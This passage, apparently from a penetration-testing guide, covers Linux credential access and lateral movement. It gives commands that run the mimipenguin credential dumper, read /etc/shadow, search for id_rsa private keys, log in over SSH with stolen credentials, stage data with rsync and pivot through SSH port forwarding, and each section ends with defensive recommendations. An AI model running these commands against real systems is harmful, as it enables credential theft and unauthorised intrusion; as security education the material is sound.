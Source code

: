     Command Examples:

        Using mimipenguin:

        bash

git clone https://github.com/huntergregal/mimipenguin.git
cd mimipenguin
./mimipenguin.sh

Reading /etc/shadow:

bash

cat /etc/shadow

Finding SSH Keys:

bash

        find / -name "id_rsa" 2>/dev/null

    Recommendations:
        Secure /etc/shadow file permissions and use stronger password policies.
        Use SSH key passphrases and secure private keys.
        Monitor for unauthorized access to sensitive files.

C. Lateral Movement

Description: Lateral movement involves transferring access from one compromised system to another within the network to expand control and reach more valuable targets.

    Common Tools and Techniques:
        SSH: Using stolen credentials or SSH keys to log into other systems.
        Rsync over SSH: Moving files between systems for data staging.
        Pivoting: Establishing a foothold in one system to relay traffic to other parts of the network.

    Command Examples:

        Using SSH:

        bash

ssh user@target-system

Rsync Over SSH:

bash

rsync -avz -e ssh /path/to/local/dir user@remote-system:/path/to/remote/dir

SSH Pivoting:

bash

        ssh -L 8080:target-ip:80 user@pivot-host

    Recommendations:
        Use network segmentation and firewall rules to limit lateral movement.
        Implement strict access controls and use SSH key-based authentication.
        Monitor for unusual SSH connection attempts.
